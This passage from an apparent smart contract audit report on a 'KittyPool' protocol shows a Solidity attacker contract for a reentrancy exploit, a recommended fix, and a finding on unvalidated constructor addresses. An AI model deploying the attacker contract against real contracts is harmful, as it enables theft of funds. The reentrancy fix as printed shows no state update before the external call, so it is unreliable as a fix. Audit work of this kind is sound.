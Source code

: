 Use the below contract as Attacker Contract:-

```javascript
    contract AttackKittyPool {
        KittyPool public kittyPool;
        MaliciousKittyVault public maliciousVault;

        constructor(address _kittyPool) {
            kittyPool = KittyPool(_kittyPool);
            maliciousVault = new MaliciousKittyVault(address(kittyPool));
        }

        function attack() public {
            // Register the malicious vault
            kittyPool.meownufactureKittyVault(address(maliciousVault), address(0));
            // Call whiskdrawMeowllateral to start the reentrancy attack
            kittyPool.whiskdrawMeowllateral(address(maliciousVault), 1);
        }
    }
```

**Recommended Mitigation**: Use the Checks-Effects-Interactions pattern to update the state before calling external contracts.

```javascript
    function whiskdrawMeowllateral(address _token, uint256 _ameownt) external tokenExists(_token) {
        require(_hasEnoughMeowllateral(msg.sender), KittyPool__NotEnoughMeowllateralPurrrr());
        IKittyVault(tokenToVault[_token]).executeWhiskdrawal(msg.sender, _ameownt);
    }
```

## <a id='H-03'></a>H-03. Lack of Validation for Token Address in `KittyVault::constructor` function            



**Description**: The constructor does not validate the `_token`, `_kittyPool`, `_priceFeed`, `_euroPriceFeed`, `_meowntainer`, and `_aavePool` addresses, which could lead to setting invalid or malicious addresses.

**Impact**: Invalid or malicious addresses could lead to loss of funds or other unexpected behavior.

**Recommended Mitigation**: Add validation checks to ensure that addresses are non-zero and valid.

```javascript
    constructor(
        address _token,
        address _kittyPool,
        address _priceFeed,
        address _euroPriceFeed,
        address _meowntainer,
        address _aavePool
    ) {
        require(_token != address(0), "Invalid token address");
        require(_kittyPool != address(0), "Invalid kitty pool address");
        require(_priceFeed != address(0), "Invalid price feed address");
        require(_euroPriceFeed != address(0), "Invalid euro price feed address");
        require(_meowntainer != address(0), "Invalid meowntainer address");
        require(_aavePool != address(0), "Invalid aave pool address");

        token = _token;
        kittyPool = _kittyPool;
        priceFeed = _priceFeed;
        euroPriceFeed = _euroPriceFeed;
        meowntainer = _meowntainer;
        aavePool = _aavePool;
    }
```